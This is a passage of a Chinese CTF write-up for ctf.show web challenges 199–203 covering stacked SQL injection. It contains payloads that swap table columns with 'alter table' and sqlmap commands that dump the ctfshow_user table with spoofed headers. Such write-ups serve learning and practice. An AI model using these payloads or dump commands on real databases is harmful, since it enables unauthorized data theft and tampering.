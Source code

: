 
网上有 wp 给出的思路是将 pass 和 id 列互换, 然后进行爆破, payload 如下

`0;alter table ctfshow_user change column pass tmp varchar(255);alter table ctfshow_user change column id pass varchar(255);alter table ctfshow_user change column tmp id varchar(255)`

## web199

同上, 但过滤了括号, insert 操作不能用了

想了想, 因为这里是堆叠注入, 类似之前有一题通过 `select(1)` 把原本的 pass 顶掉

这里我们用 `show tables` 语句

猜测数据表只有一张 `ctfshow_user`, 所以上句返回的第一条结果就是 `ctfshow_user`, 然后存到 `$row[0]` 里面

![20220727153900](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220727153900.png)

上题中互换列名的方法仍然可以, 但要改一下类型

`0;alter table ctfshow_user change column pass tmp text;alter table ctfshow_user change column id pass int;alter table ctfshow_user change column tmp id text`

## web200

同上, 又过滤了 `,`

依然可以用 `;show tables`

互换列名同上

## web201

"不使用sqlmap是没有灵魂的"

"打击盗版人人有责，你都不是从ctf.show来的"

指定 user-agent 和 referer

```bash
sqlmap.py -u "http://abb99e06-4b83-46b4-85b6-aec02eb9fdda.challenge.ctf.show/api/?id=1" --user-agent "sqlmap" --referer "http://abb99e06-4b83-46b4-85b6-aec02eb9fdda.challenge.ctf.show/sqlmap.php" -t 20 --dump -T ctfshow_user -D ctfshow_web
```

## web202

查询语句里写的是 get 请求, 但其实 post 请求也是可以的

```bash
sqlmap.py -u "http://5cbfc211-2645-4415-b87b-39b535ba6e1a.challenge.ctf.show//api/" --data "id=1&page=1&limit=10" --user-agent "sqlmap" --referer "ctf.show" --dump -T ctfshow_user -D ctfshow_web 
```

## web203

method 试了一遍都不行, 看到 wp 才发现竟然是 PUT
